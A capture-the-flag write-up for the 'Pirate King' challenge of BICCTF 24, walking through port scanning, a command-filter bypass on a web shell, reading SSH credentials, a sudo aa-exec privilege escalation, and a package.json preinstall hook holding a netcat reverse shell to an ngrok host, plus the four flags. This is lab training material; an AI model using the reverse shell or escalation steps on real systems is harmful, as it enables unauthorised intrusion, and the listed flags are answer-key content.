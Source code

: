 * * *

### CTF: BICCTF 24

* * *

------------------------

### CHALLENGES

### B2R

-     Pirate King:Question [9] - [12]

-----------------------

### Pirate King

![image](https://github.com/user-attachments/assets/53744598-c639-4c2a-9fab-074e4051614a)

- The server was hosted on ip:`54.226.229.244`

      ❯ rustscan -a 54.226.229.244
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 54.226.229.244:22
      Open 54.226.229.244:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-11 04:44 EDT
      Initiating Ping Scan at 04:44
      Scanning 54.226.229.244 [2 ports]
      Completed Ping Scan at 04:44, 0.30s elapsed (1 total hosts)
      Initiating Parallel DNS resolution of 1 host. at 04:44
      Completed Parallel DNS resolution of 1 host. at 04:44, 2.03s elapsed
      DNS resolution of 1 IPs took 2.03s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 04:44
      Scanning ec2-54-226-229-244.compute-1.amazonaws.com (54.226.229.244) [2 ports]
      Discovered open port 80/tcp on 54.226.229.244
      Discovered open port 22/tcp on 54.226.229.244
      Completed Connect Scan at 04:44, 0.27s elapsed (2 total ports)
      Nmap scan report for ec2-54-226-229-244.compute-1.amazonaws.com (54.226.229.244)
      Host is up, received syn-ack (0.29s latency).
      Scanned at 2024-08-11 04:44:30 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack


- I scanned with Rustcan and discovered 2 open ports, port 80 `http` and port 22 `ssh` respectively.

- The site's source code contains this hint to check `robots.txt` file

![image](https://github.com/user-attachments/assets/e6ee4bf9-940e-4540-b413-41652c4611b3)

- The robots.txt file disallow crawling of files `syrup.jpeg` and `kaya.txt`
![image](https://github.com/user-attachments/assets/88594d64-5b2b-462b-a829-1e020033be19)

- Kaya.txt leads us to `dev_shell.php` page where we can execute shell commands.Although the shell code filters shell commands,checking the source code presents our first flag
![image](https://github.com/user-attachments/assets/8866ab4b-d112-48f2-bc4e-614e25a0320f)

- Flag-:``` BICCTF{Bl@ck_C@t_P1r@tes}```

### SSH ACCESS

- Running `l\s` to bypass the filter reveals a txt file.

![image](https://github.com/user-attachments/assets/3affc173-bb7a-48c5-9bff-38b0b99222a3)

- The txt file contains ssh credentials for the user `kuro`

![image](https://github.com/user-attachments/assets/602078b4-7702-4904-bdbf-5b30b8c50c9b)

- SSH Access
![image](https://github.com/user-attachments/assets/da974b06-bebb-4c72-97b5-073ca20e3692)

- `/home/kuro/Desktop/flag2.txt` contains the second flag
![image](https://github.com/user-attachments/assets/6c24be62-2334-4315-91da-8c8aba7c9c8b)

- Flag2-:```BICCTF{Nukia$hi}```

### User Usopp
- Running `sudo -l` as user `kuro` shows we can run binary `aa-exec` as user `usopp` without password.

![image](https://github.com/user-attachments/assets/99f8b741-280a-4ef9-b763-907ba73b6b59)

- I got this payload from gtfobins `aa-exec /bin/sh -p`, run with `aa-exec /bin/bash -p` to get a bash shell.Now, we have access to user `Usopp`
   Payload-:```sudo -u usopp aa-exec /bin/bash -p```

![image](https://github.com/user-attachments/assets/9ea1e3f3-d4ab-41e0-ac82-ff34291e62bd)

- The third flag is located in `/home/usopp/Desktop/flag3.txt`

![image](https://github.com/user-attachments/assets/d677d4c6-504d-438f-a84e-1ea259b792ab)

- Flag3-:```BICCTF{P@ch1nko}```
  
### Accessing User `node` with `npm install` cronjob

- This hint in the `Document` directory reveals a nodejob that run every 2mins

![image](https://github.com/user-attachments/assets/f862d4c6-0403-4d1e-b485-8ffbd4ebdcc2)

- We can abuse the package-lock.json file to spawn a reverse shell by creating a new one since the present one cannot be edited.You can also add it to the package.json file.

      {
        "name": ".nodeitems",
        "scripts": {
                 "preinstall": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 5.tcp.eu.ngrok.io 11222 >/tmp/f"
             }
      }
      
- Shell Access to user `node`

![image](https://github.com/user-attachments/assets/80caf1f3-99fb-4f6a-b1c4-d41336e8595d)

- The last flag is located in `/home/node/flag4.txt`.

![image](https://github.com/user-attachments/assets/26184e5b-89bf-4e3d-8679-1a82b145961c)

- Flag4-:```BICCTF{n0deM@st3r}```

### THANKS FOR READING !!!

